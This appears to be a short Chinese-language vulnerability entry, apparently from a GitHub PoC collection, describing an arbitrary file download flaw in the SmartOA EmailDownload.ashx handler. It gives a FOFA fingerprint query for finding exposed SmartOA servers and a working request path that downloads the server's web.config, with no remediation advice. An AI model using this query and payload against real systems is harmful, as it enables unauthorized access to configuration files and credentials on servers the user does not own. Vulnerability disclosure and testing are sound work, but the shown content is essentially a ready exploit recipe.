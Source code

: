 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

```
智明 SmartOA
```

## FOFA

```
app="智明协同-SmartOA"
```

## 漏洞复现

登录页面

![image-20220520133519986](./images/202205201335202.png)

验证POC

```
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![image-20220520133538762](./images/202205201335862.png)